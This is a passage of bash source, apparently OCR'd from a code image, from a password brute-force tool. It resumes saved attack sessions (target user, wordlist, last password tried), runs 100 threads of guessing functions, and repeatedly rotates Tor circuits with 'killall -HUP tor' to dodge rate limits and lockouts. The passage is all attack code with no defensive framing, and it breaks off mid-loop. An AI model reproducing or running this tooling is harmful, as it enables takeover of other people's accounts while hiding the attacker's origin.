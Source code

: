 for list in $(ls sessions/store.session*); do
IFS=$'\n'
source $list
printf "\e[1;92m%s \e[0m\e[1;77m: %s (\e[0m\e[1;92mwl:\e[0m\e[1;77m %s\e[0m\e[1;92m,\e[0m\e[1;92m lastpass:\e[0m\e[1;77m %s )\n\e[0m" "$countern" "$list" "$wl_pass" "$pass"
let countern++
done
read -p $'\e[1;92mChoose a session number: \e[0m' fileresume
source $(ls sessions/store.session* | sed ''$fileresume'q;d')
default_threads=100
threads="${threads:-${default_threads}}"
printf "\e[1;92m[*] Resuming session for user:\e[0m \e[1;77m%s\e[0m\n" $user
printf "\e[1;92m[*] Wordlist: \e[0m \e[1;77m%s\e[0m\n" $wl_pass
printf "\e[1;91m[*] Press Ctrl + C to stop or save session\n\e[0m"
multitor
while [ true ]; do
killall -HUP tor
###pkill -f -HUP "tor -f multitor/multitor1"; pkill -f -HUP "tor -f multitor/multitor2"; pkill -f -HUP "tor -f multitor/multitor3"; pkill -f -HUP "tor -f multitor/multitor4"; pkill -f -HUP "tor -f multitor/multitor5"
bf1resume 
let turn+=20
bf2resume
let turn+=20
bf3resume
let turn+=20
bf4resume 
let turn+=20
bf5resume
let turn-=60
###
killall -HUP tor
#pkill -f -HUP "tor -f multitor/multitor1"; pkill -f -HUP "tor -f multitor/multitor2"; pkill -f -HUP "tor -f multitor/multitor3";pkill -f -HUP "tor -f multitor/multitor4";pkill -f -HUP "tor -f multitor/multitor5"
done
}
case "$1" in --resume) resume ;; *)
banner
checkroot
dependencies
start
multitor
killall -HUP tor
while [ $countpass -lt $count_pass ]; do
killall -HUP tor
##pkill -f -HUP "tor -f multitor/multitor1"; pkill -f -HUP "tor -f multitor/multitor2"; pkill -f -HUP "tor -f multitor/multitor3";pkill -f -HUP "tor -f multitor/multitor4";pkill -f -HUP "tor -f multitor/multitor5"
bf1 
let turn+=20
bf2 
let turn+=20
bf3 
let turn+=20
bf4 
let turn+=20
bf5 
let turn-=60
killall -HUP tor
###
#pkill -f -HUP "tor -f multitor/multitor1"; pkill -f -HUP "tor -f multitor/multitor2"; pkill -f -HUP "tor -f multitor/multitor3"; pkill -f -HUP "tor -f multitor/multitor4"; pkill -f -HUP "tor -f multitor/multitor5"
